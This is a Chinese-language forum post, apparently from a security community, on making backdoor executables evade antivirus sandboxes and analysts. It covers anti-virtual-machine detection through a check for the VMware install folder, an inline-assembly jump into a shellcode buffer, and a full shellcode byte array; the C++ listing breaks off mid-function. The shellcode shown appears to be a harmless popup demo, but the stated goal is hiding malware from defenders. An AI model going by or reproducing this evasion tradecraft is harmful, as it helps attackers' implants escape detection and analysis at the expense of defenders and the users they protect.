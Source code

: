 最近在研究免杀这一块的知识，说到免杀肯定就逃不过沙箱。对于沙箱的通俗理解就是一个安全的箱子，这个箱子能够模拟出软件执行苏需要的环境(如模拟虚拟机环境)，通过hook跳转到自己的函数进行行为分析。所以我们的后门文件想要更好的躲避杀软的查杀，首先肯定要做好反调试才能在对抗杀软时后顾无忧。

反虚拟机调试
======

我想现在一般的沙箱都不会是虚拟机环境，但如果我们在对抗的过程中被蓝队人员拿到了样本，他想用od去调一下这个程序怎么走的，肯定也不会拿到本机里面调，如果这个exe有毒，那电脑就全完了，所以最好的选择还是虚拟机环境，首先反调试的第一个目标就是反虚拟机调试。

根据文件路径
------

查阅资料后发现如果使用虚拟机，一般的路径都为(在没有修改过的情况下)

```c++
C:\Program Files\VMware
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-06c98d03add94a7bff34b3649beede3c3e12058e.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-06c98d03add94a7bff34b3649beede3c3e12058e.png)

那么第一种反虚拟机的方式就是通过判断C盘目录下是否有这个文件夹，这里用到``PathIsDirectory`这个api

```c++
BOOL PathIsDirectoryA(
  LPCSTR pszPath    //指向包含要验证的路径的最大长度为 MAX_PATH 的空终止字符串的指针
);
```

如果路径是有效目录，则返回 (BOOL)FILE\_ATTRIBUTE\_DIRECTORY；否则返回FALSE

那么这里我们就可以进行判断，如果存在这个路径则向下执行代码

```c++
if (PathIsDirectory("C:\\Program Files\\VMware"))
```

使用`__asm`把参数传进去，并定义一个shellcode，存在这个路径则弹窗

```c++
    __asm{
      lea eax, shellcode;
      push eax;
      ret;
    }
```

完整代码如下

```c++
#include "stdafx.h"
#include <Windows.h>
#include "shlwapi.h"
#pragma comment(lib, "shlwapi.lib")

char shellcode[] =
    "\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
    "\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
    "\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
    "\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
    "\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
    "\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
    "\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
    "\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6c\x8b\xc4\x53\x50\x50"
    "\x53\xff\x57\xfc\x53\xff\x57\xf8";

int main(int argc, CHAR* argv[])
{
    if (PathIsDirectory("C:\\Program Files\\VMware"))
```